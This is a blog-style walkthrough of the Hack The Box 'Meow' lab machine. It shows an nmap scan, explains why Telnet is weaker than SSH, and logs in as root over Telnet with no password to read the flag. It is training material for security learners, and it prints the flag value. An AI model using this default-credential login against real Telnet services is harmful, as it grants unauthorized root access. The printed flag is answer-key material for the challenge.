 ```yaml
---
title: "Hack The Box - Meow"
date: 2022-10-10T00:26:33+05:30
draft: false
description: " Meow from HackTheBox is an retired machine which is vulnerable to Telnet and security Misconfiguration, which can be easily exploited with help of Basic Recon "
hideToc: false
tocPosition: outer
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- Telnet
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/meow/1.png 
---
```

Hi Hackers Welcome Back, Today we are going to look at Hack The Box Meow Machine.

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Meow</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the port 23 ware open. while trying to connect with default or well known usernames. Telnet ware get logged in without using password.

## Mind Map 
{{< img src="/images/hackthebox/meow/mm.png" alt="image alt" width="1000px"  position="center" >}}

## Recon 
Lets start with Initial scan.

```bash 
atom@atom-VirtualBox:~/htb/meow$ sudo nmap -sC -sV -O 10.129.144.166 -oN initial.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-10 01:16 IST
Nmap scan report for 10.129.144.166
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/10%OT=23%CT=1%CU=30227%PV=Y%DS=2%DC=I%G=Y%TM=634325
OS:3C%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:101%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%
OS:O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2
OS:=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNS
OS:NW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.80 seconds
atom@atom-VirtualBox:~/htb/meow
```

Telnet is considered insecure due to lacking the ability to encrypt the data being sent through it securely. This implies that an attacker with access to a network TAP (Traffic Access Point) could easily intercept the packets being sent through a Telnet connection and read the contents, be they login credentials, sensitive files, or anything else. Telnet, which runs on port 23 TCP by default, has mainly been replaced by its more secure counterpart, SSH , running on port 22 TCP by default.

SSH, which stands for Secure Shell Protocol, adds the required layers of authentication and encryption to the communication model, making it a much more viable approach to perform remote access and remote file transfers. It is used both for patch delivery, file transfers, log transfer, and remote management in today's environment.

SSH uses public-key cryptography to verify the remote host's identity, and the communication model is based on the ``` Client-Server architecture ``` , as seen previously with FTP, SMB, and other services. The local host uses the server's public key to verify its identity before establishing the encrypted tunnel connection. Once the tunnel is established, symmetric encryption methods and hashing algorithms are used to ensure the confidentiality and integrity of the data being sent over the tunnel.

Lets we try to connect Telnet port 23 using some well-known default usernames and password like ubuntu, administrator,user,root ... 

```bash
atom@atom-VirtualBox:~$ telnet 10.129.143.226 23
Trying 10.129.143.226...
Connected to 10.129.143.226.
Escape character is '^]'.
root

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 09 Oct 2022 04:55:58 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.143.226
  IPv6 address for eth0: dead:beef::250:56ff:fe96:1afd

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
```
we successfully get logged in. let's dig for a flag 

```bash 
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# whoami
root
root@Meow:~# 

```